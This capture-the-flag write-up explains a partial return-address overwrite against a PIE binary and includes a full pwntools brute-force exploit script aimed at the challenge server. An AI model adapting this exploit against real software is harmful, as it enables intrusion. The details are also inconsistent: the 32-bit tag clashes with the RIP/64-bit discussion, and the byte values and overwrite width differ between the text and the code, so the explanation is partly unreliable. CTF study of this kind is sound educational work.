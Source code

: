 ```yaml
---
layout: post
date: 2025-07-31 08:22:00 +0300
categories: NCSC-2025 pwn
title: pwner
tags: 32-bit ret2win buffer-overflow partial-overwrite
---
```



## Information
- category: pwn
- points: 1000

## Description
> None

## Write-up
We start by analyzing the binary’s control flow. The vulnerable function `vuln()` reads user input using the `read()` syscall. We also notice a hidden function called `print_flag()` — which, if executed, prints the flag. Our objective is to redirect execution to `print_flag()`.

### Step 1: Finding the Overflow 
Using `pwndbg` to inspect the stack, we find that the return address sits **52 bytes** after the beginning of the buffer. That means we can overwrite the return address by inputting 52 bytes of junk followed by our payload.
```plaintext
> dist $rsp 0x...  # Reveals 52-byte offset to RIP
```

### Step 2: The Challenge – PIE and ASLR 
However, there’s a catch: * The binary is **PIE-enabled**, so addresses (including `print_flag`) are randomized each time. 
-  There's **no infoleak**, so we can't use full ROP or leak base addresses. 
- We also can’t fully control the return address because `read()` limits input size and ASLR hides the high bytes of addresses. 
So full control is **not possible**, but we can still exploit this using a **partial overwrite**.

### Step 3: Partial Overwrite Strategy 
Since the address space is randomized only at page granularity (on 64-bit systems with PIE), the **low byte** (and possibly more) of a function like `print_flag()` often stays the same between executions. For example, if `print_flag()` is at `0x556a7724e072`, then the last byte `0x72` may be stable across runs. 
So we: 
1. Send **52 bytes** of junk to reach the return address.
2. Overwrite **only the lowest byte** of the return address with the known final byte of `print_flag()` (e.g., `0x72`). 
3. Brute-force the upper bytes over multiple runs. 

Eventually, the full return address aligns to `print_flag()`. This is called a **partial overwrite** combined with **brute-force of the randomized higher bits**.

### Step 4: Triggering the Overwrite
The function `vuln()` is reused (called again from `main()` or itself), which gives us multiple attempts.
Each time, we do the same partial overwrite until the process crashes or the return lands inside `print_flag()`. 

**Result Eventually,**
 the process hits the correct base address alignment and jumps into `print_flag()`, revealing the flag.

## Exploit
```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./pwner_patched")

context.binary = exe
context.terminal = "kitty"
context.log_level = 'debug'
offset_ret = 52

def conn():
    if args.LOCAL:
        r = process([exe.path])
        #gdb.attach(r)
        return r

    else:
        return remote("cyberwarriors-challenges.skidz.io", 7000)

def payload(r,i):
    fixed = b"\x99"
    payload = b"A" * offset_ret + b"\x99" + p8(i)
    r.send(payload)


def main():
    while True:
        for i in range(0x0,0xff):
            r = conn()
            payload(r,i)
            res = r.recvall(timeout=5)
            if b"NCSC{" in res:
                print(res)
                break
        break


if __name__ == "__main__":
    main()
```
## Flag
> Flag:``` NCSC{y3545lrc4nb3byp4553dw17h0u7l34k!}```

















